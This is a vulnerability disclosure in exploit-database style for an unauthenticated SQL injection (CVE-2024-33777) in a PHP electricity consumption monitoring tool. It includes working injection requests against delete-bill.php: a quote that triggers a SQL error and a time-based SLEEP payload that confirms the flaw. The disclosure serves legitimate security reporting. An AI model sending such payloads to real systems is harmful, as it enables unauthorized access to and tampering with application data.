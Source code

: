 # Electricity Consumption Monitoring Tool - Unauthenticated SQL Injection
+ *Exploit Title:* Electricity Consumption Monitoring Tool  - Unauthenticated SQL Injection
+ *Date:* 2024-04-24
+ *Exploit Author:* Asif Nawaz Minhas
+ *Vendor Homepage:* https://www.sourcecodester.com/php/17328/electricity-consumption-monitoring-tool-using-php-and-mysql-source-code.html
+ *Software Link:* https://download.code-projects.org/details/97b61777-5089-4b4f-841f-10e10be5859e
+ *Version:* 1.0
+ *Tested on:* Kali Linux + PHP 8.2.12, Apache 2.4.58
+ *CVE:* CVE-2024-33777

## Description:
Electricity Consumption Monitoring Tool is vulnerable to a unauthenticated SQL injection vulnerability.  
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to http://localhost/electricity-comsumption-monitoring/
+ Click X to delete a bill
+ In your history you will see a bill id with the = parameter
+ Send this request again but modify it like this:
+ GET /electricity-comsumption-monitoring/endpoint/delete-bill.php?bill=6' HTTP/1.1
+ The response shows now:


Error: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; 
check the manual that corresponds to your MariaDB server version for the right syntax to use near ''6''' at line 1

Modify the payload now like this:

GET /electricity-comsumption-monitoring/endpoint/delete-bill.php?bill=%27%20AND%20(SELECT%207764%20FROM%20(SELECT(SLEEP(7)))BFNj)--%20SoMo HTTP/1.1

You will see a time out of 7 seconds, thus confirming the unauthenticated SQL injection vulnerability.




 ![XSS_1](https://github.com/ethicalhackerNL/CVEs/blob/fe099baf91dd62213fc46068b0aaafec5114c492/Electricity%20Consumption%20Monitoring%20Tool/unauth%20sqli%20proof.jpg)
